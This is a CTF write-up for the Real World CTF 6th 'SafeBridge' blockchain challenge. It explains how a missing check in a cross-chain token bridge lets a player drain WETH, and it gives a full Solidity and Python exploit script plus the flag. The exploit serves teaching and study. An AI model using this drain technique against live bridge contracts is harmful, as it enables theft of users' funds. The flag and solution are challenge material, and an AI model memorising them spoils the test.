 ```yaml
---
title: Real World CTF 6th – SafeBridge
date: '2024-01-29'
draft: false
authors: ['yanhu']
tags:
  [
    'Real World CTF 6th',
    'Blockchain',
    'Web3',
    'Smart Contract',
    'Solidity',
    'Cross Chain',
    'Data Validation',
  ]
summary: 'Exploiting cross-chain bridge vulnerabilities to drain tokens from the bridge'
canonical: 'https://yanhuijessica.github.io/Chictf-Writeups/blockchain/safebridge'
---
```


## SafeBridge (Blockchain, 17 Solves)

> I’ve crafted what I believed to be an ultra-safe token bridge. Don’t believe it?
>
> [Attachment](https://github.com/YanhuiJessica/Chictf-Writeups/raw/master/docs/blockchain/static/safebridge.zip)

This challenge is derived from [Enterprise Blockchain](https://yanhuijessica.github.io/Chictf-Writeups/blockchain/paradigm/enterprise_blockchain/) in Paradigm CTF 2023. The `CrossDomainMessenger.sendMessage()` function, which can be used for sending cross-chain messages, is still publicly available. The difference is that when finalizing a cross-chain token transfer, it will verify whether the initiator of the cross-chain message is the bridge on the corresponding chain. Thus, cross-chain token transfers are only possible via `L1ERC20Bridge.depositERC20() / L1ERC20Bridge.depositERC20To()` and `L2ERC20Bridge.withdraw() / L2ERC20Bridge.withdrawTo()`:

```js
function finalizeERC20Withdrawal(address _l1Token, address _l2Token, address _from, address _to, uint256 _amount)
    public
    onlyFromCrossDomainAccount(l2TokenBridge)
{
    deposits[_l1Token][_l2Token] = deposits[_l1Token][_l2Token] - _amount;
    IERC20(_l1Token).safeTransfer(_to, _amount);
    emit ERC20WithdrawalFinalized(_l1Token, _l2Token, _from, _to, _amount);
}

modifier onlyFromCrossDomainAccount(address _sourceDomainAccount) {
    require(msg.sender == address(getCrossDomainMessenger()), "messenger contract unauthenticated");

    require(
        getCrossDomainMessenger().xDomainMessageSender() == _sourceDomainAccount,
        "wrong sender of cross-domain message"
    );

    _;
}
```

To withdraw WETH from L1Bridge, we need to invoke the `L2ERC20Bridge.withdraw()` function. In `_initiateWithdrawal()`, `l1Token` is read from `_l2Token`. Since the `_l2Token` provided by users could be a custom token, then only the value of `L1ERC20Bridge.deposits[weth][_l2Token]` should not be less than the amount to be transferred.

```js
function withdraw(address _l2Token, uint256 _amount) external virtual {
    _initiateWithdrawal(_l2Token, msg.sender, msg.sender, _amount);
}

function _initiateWithdrawal(address _l2Token, address _from, address _to, uint256 _amount) internal {
    IL2StandardERC20(_l2Token).burn(msg.sender, _amount);

    address l1Token = IL2StandardERC20(_l2Token).l1Token();
    bytes memory message;
    if (_l2Token == Lib_PredeployAddresses.L2_WETH) {
        message = abi.encodeWithSelector(IL1ERC20Bridge.finalizeWethWithdrawal.selector, _from, _to, _amount);
    } else {
        message = abi.encodeWithSelector(
            IL1ERC20Bridge.finalizeERC20Withdrawal.selector, l1Token, _l2Token, _from, _to, _amount
        );
    }

    sendCrossDomainMessage(l1TokenBridge, message);

    emit WithdrawalInitiated(l1Token, _l2Token, msg.sender, _to, _amount);
}
```

When initiating a transfer from L1 to L2, if `_l1Token` is `weth`, the corresponding amount of `L2_WETH` will be minted in `L2ERC20Bridge.finalizeDeposit()`. However, `_l2Token` may not be `L2_WETH`. If `_l2Token` is a custom token controlled by the player, not only can player obtain `L2_WETH`, but `deposits[weth][_l2Token]` will also increase:

```js
function depositERC20(address _l1Token, address _l2Token, uint256 _amount) external virtual {
    _initiateERC20Deposit(_l1Token, _l2Token, msg.sender, msg.sender, _amount);
}

function _initiateERC20Deposit(address _l1Token, address _l2Token, address _from, address _to, uint256 _amount)
        internal
{
    IERC20(_l1Token).safeTransferFrom(_from, address(this), _amount);

    bytes memory message;
    if (_l1Token == weth) { // @audit-issue no check if _l2Token is L2_WETH
        message = abi.encodeWithSelector(
            IL2ERC20Bridge.finalizeDeposit.selector, address(0), Lib_PredeployAddresses.L2_WETH, _from, _to, _amount
        );
    } else {
        message =
            abi.encodeWithSelector(IL2ERC20Bridge.finalizeDeposit.selector, _l1Token, _l2Token, _from, _to, _amount);
    }

    sendCrossDomainMessage(l2TokenBridge, message);
    deposits[_l1Token][_l2Token] = deposits[_l1Token][_l2Token] + _amount;

    emit ERC20DepositInitiated(_l1Token, _l2Token, _from, _to, _amount);
}
```

Since `deposits[weth][L2_WETH]` already has a value, we can drain WETH in l1Bridge with `L2_WETH` and custom `_l2Token`.

### Exploitation

```js
contract FakeL2StandardERC20 is L2StandardERC20 {
    constructor(address _l1Token) L2StandardERC20(_l1Token, "FAKE", "FAKE") {}

    function mint(address _to, uint256 _amount) public override {
        _mint(_to, _amount);
    }
}
```

```py
import pwn
from cheb3 import Connection
from cheb3.utils import load_compiled

fake_abi, fake_bin = load_compiled('L2StandardERC20.sol', 'FakeL2StandardERC20')
challenge_abi, _ = load_compiled('Challenge.sol')
weth_abi, _ = load_compiled('WETH.sol')
l1bridge_abi, _ = load_compiled('L1ERC20Bridge.sol')
l2bridge_abi, _ = load_compiled('L2ERC20Bridge.sol')

L2_ERC20_BRIDGE = "0x420000000000000000000000000000000000baBe"
L2_WETH = "0xDeadDeAddeAddEAddeadDEaDDEAdDeaDDeAD0000"
AMOUNT = int(2e18)

HOST = "47.251.56.125"
PORT = 1337
TOKEN = "<team-token>"
svr = pwn.remote(HOST, PORT)
svr.sendlineafter(b"token?", TOKEN)
svr.sendlineafter(b"action?", b"1")

svr.recvuntil(b"rpc endpoints:")
l1 = Connection(svr.recvline_contains(b"l1").replace(b"-", b"").strip().decode())
l2 = Connection(svr.recvline_contains(b"l2").replace(b"-", b"").strip().decode())

priv = svr.recvline_contains(b"private").split(b":")[-1].strip().decode()
challenge_addr = svr.recvline_contains(b"challenge").split(b":")[-1].strip().decode()
svr.close()

l1account = l1.account(priv)
l2account = l2.account(priv)

challenge = l1.contract(l1account, address=challenge_addr, abi=challenge_abi)
weth_addr = challenge.caller.WETH()
l1bridge_addr = challenge.caller.BRIDGE()

# deploy the custom token
fake = l2.contract(l2account, abi=fake_abi, bytecode=fake_bin)
fake.deploy(weth_addr)

# obtain L2_WETH and increase deposits[weth][fake]
weth = l1.contract(l1account, address=weth_addr, abi=weth_abi)
weth.functions.deposit().send_transaction(value=AMOUNT)
weth.functions.approve(l1bridge_addr, AMOUNT).send_transaction()
l1bridge = l1.contract(l1account, address=l1bridge_addr, abi=l1bridge_abi)
l1bridge.functions.depositERC20(weth_addr, fake.address, AMOUNT).send_transaction()

# withdraw
fake.functions.mint(l2account.address, AMOUNT).send_transaction()
fake.functions.approve(L2_ERC20_BRIDGE, AMOUNT).send_transaction()
l2bridge = l2.contract(l2account, address=L2_ERC20_BRIDGE, abi=l2bridge_abi)
l2bridge.functions.withdraw(fake.address, AMOUNT).send_transaction()

l2weth = l2.contract(l2account, address=L2_WETH, abi=weth_abi)
l2weth.functions.approve(L2_ERC20_BRIDGE, AMOUNT).send_transaction()
l2bridge.functions.withdraw(L2_WETH, AMOUNT).send_transaction()

assert challenge.caller.isSolved()

svr = pwn.remote(HOST, PORT)
svr.sendlineafter(b"token?", TOKEN)
svr.sendlineafter(b"action?", b"3")
svr.interactive()
```

Flag: `rwctf{yoU_draINED_BriD6E}`
